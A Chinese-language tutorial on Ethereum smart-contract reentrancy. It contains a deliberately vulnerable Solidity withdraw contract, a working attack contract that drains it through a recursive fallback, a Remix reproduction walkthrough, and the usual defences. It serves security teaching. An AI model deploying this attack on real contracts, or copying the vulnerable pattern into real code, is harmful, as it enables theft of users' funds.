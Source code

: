 # 重入攻击分析
---

    author：Thomas_Xu
## 漏洞概述
在以太坊中，智能合约能够调用其他外部合约的代码，由于智能合约可以调用外部合约或者发送以太币，这些操作需要合约提交外部的调用，所以这些合约外部的调用就可以被攻击者利用造成攻击劫持，使得被攻击合约在任意位置重新执行(回调)，绕过原代码中的限制条件，从而发生重入攻击。重入攻击本质上与编程里的递归调用类似，所以当合约将以太币发送到未知地址时就可能会发生。
* **发生条件**
    1. 调用了外部的合约且该合约是不安全的
    2. 外部合约的函数调用早于状态变量的修改

接下来给大家展示的是一个最简单的提款函数：
```
function withdraw(){
  require(msg.sender,call.value(balances[msg.sender])());
  balances[msg.sender]=0;
}
```
这种函数大多存在于钱包、去中心化交易所中，目的是为了让用户提款，将合约中的代币转换成通用的以太币。<br/>

## 漏洞分析
    在进入分析之前，先介绍几个基础知识
* 以太坊常用的转账的方法
    1. transfer()：只会发送 2300 gas 进行调用，当发送失败时会通过 throw 来进行回滚操作，从而防止了重入攻击。
    2. send()：只会发送 2300 gas 进行调用，当发送失败时会返回布尔值 false，从而防止了重入攻击。
    3. gas().call.vale()()：在调用时会发送所有的 gas，当发送失败时会返回布尔值 false，不能有效的防止重入攻击。
* fallback函数
    回退函数 (fallback function)：回退函数是每个合约中有且仅有一个没有名字的函数，并且该函数无参数，无返回值，如下所示：
    ```
    function() public payable{
        ...
    }
    ```
    回退函数在以下几种情况中被执行：
    1. 调用合约时没有匹配到任何一个函数
    2. 没有传数据
    3. 智能合约收到以太币（为了接受以太币，fallback 函数必被标记为 payable）

* 漏洞
    通过我们对fallback函数的了解。
    如果我们构造一个 fallback 函数，函数里面也调用对方的 withdraw 函数的话，那将会产生一个循环调用转账功能，存在漏洞的合约会不断向攻击者合约转账，终止循环结束（以太坊 gas 有上限）
    ![攻击原理](images/Reenter1.png)
    我们先来看一段比较典型的有重入漏洞的合约：
    ```
    pragma solidity ^0.4.19;
    
    contract Reentrance{
        address _owner;
        mapping (address => uint256) balances;
    
        function Reentrance(){
            _owner = msg.sender;
        }
    
        function withdraw(uint256 amount) public payable{
            require(balances[msg.sender] >= amount);
            require(this.balance >= amount);
            // 发送以太
            msg.sender.call.value(amount)();
            // 状态变量修改
            balances[msg.sender] -= amount;
        }
    
        function deposit() public payable{
            balances[msg.sender] += msg.value;
        }
    
        function balanceOf(address adre)constant returns(uint256){
            return balances[adre];
        }
    
        function wallet() constant returns(uint256 result){
            return this.balance;
        }


    }
    ```
    我们来看这个合约的 withdraw 函数，这个函数中的转账操作有一个外部调用（msg.sender.call.value(amount)()），所以我们就可以认为这个合约是可能有重入漏洞的，但是具体能否产生危害还需要更深入的分析：
    * 攻击者思路：
        >1. 所有的外部调用都是不安全的且合约在接收以太的时候会触发 fallback 函数执行相应的逻辑，这是一种隐藏的外部调用，这种隐藏的外部调用是否会造成危害呢？
        >2. 我们可以看到在 withdraw 函数中是先执行外部调用进行转账后才修改用户余额状态变量的，那我们可不可以在转账外部调用的时候构造一个恶意的逻辑合约在合约执行 balance[msg.sender] -= amount 之前一直循环调用 withdraw 函数一直提币从而将合约账户清空呢？
    * 攻击合约：
    ```
    pragma solidity ^0.4.19;
    import"./Reentrance.sol";
    
    contract ReentranceAttack{
        Reentrance re;
        function ReentranceAttack(address _target) public payable{
            re = Reentrance(_target);
        }
    
        function wallet()view returns(uint256){
            return this.balance;
        }
    
        function deposit()public payable {
            re.deposit.value(msg.value)();
        }
    
        function attack(){
            re.withdraw(1);
        }
        function () public payable {
            if (address(re).balance >= 1 ether){
                re.withdraw(1);
            }
        }
    
    }
    ```
    * 攻击原理：
        由于受害者合约withdraw函数使用call函数转账，会附加"所有可用gas"，并触发msg.sender的fallback函数。fallback 函数再次调用withdraw函数套利，由于withdraw函数最后一步才减去msg.sender对应的余额并记录导致递归调用withdraw函数require判断都能通过。直到合约中没有可用余额为止。
        类似于对攻击者fallback函数的递归调用
## 漏洞复现
首先用账户(`0x5B38Da6a701c568545dCfcB03FcB875f56beddC4`)模拟受害者，点击depoly开始部署。
![](images/Reenter2.png)
然后将Value改为5，单位改为ether。点击deposit方法
![](images/Reenter3.png)
查看当前账户余额为5ether，存款成功
![](images/Reenter4.png)
创建一个新账户（`0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2`）来模拟攻击者，在Deploy处填写漏洞合约地址，部署攻击合约。
![](images/Reenter5.png)
部署成功后，先查看攻击合约的wallet为0
![](images/Reenter6.png)
攻击者先存款 1 ether 到漏洞合约中，这里设置 VALUE 为 1 ether，之后点击攻击合约的 deposit 进行存款。
![](images/Reenter7.png)
再次调用漏洞合约的wallet方法，却发现有了6 ether
![](images/Reenter8.png)
攻击者 (`0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2`) 调用攻击合约的 attack 函数模拟攻击，之后调用被攻击合约的 wallet 函数去查看合约的余额，发现已经归零，此时回到攻击合约查看余额，发现被攻击合约中的 6 ether 已经全部提款到了攻击者合约中，这就造成了重入攻击。
![](images/Reenter9.png)

## 漏洞防范
* **加入防重入锁**
    下面是一个防重入锁的例子：
    ```
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.3;
    
    contract ReEntrancyGuard {
        bool internal locked;
    
        modifier noReentrant() {
            require(!locked, "No re-entrancy");
            locked = true;
            _; 
        locked = false; 
    }
    }
    ```

* **写代码时需要遵循先判断，后写入变量在进行外部调用的编码规范（Checks-Effects-Interactions）**

* **使用send() 和 transfer() 转币，只会传递2300Gas供调用，防止重入攻击。**